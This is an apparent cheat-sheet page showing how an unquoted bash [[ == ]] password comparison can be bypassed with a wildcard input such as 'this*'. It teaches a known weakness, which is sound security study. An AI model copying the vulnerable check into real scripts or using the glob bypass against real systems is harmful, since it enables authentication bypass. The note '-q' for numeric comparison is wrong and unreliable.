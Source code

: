 ## Bash Escape / Exploit

### Summary
- Bash Comparison

### Bash Comparison
- **= or == :** for string comparisons
- **-q :** for numeric comparisons.
[]

**Vulnerable Code**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="i_dont_know_what_is_db_pass"

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
The result of that will be "Failed" because DB_PASS and USER_PASS does not match!

**Exploit**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="this*" => asterisk character it acts as a wildcard and matches any part of the string.

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
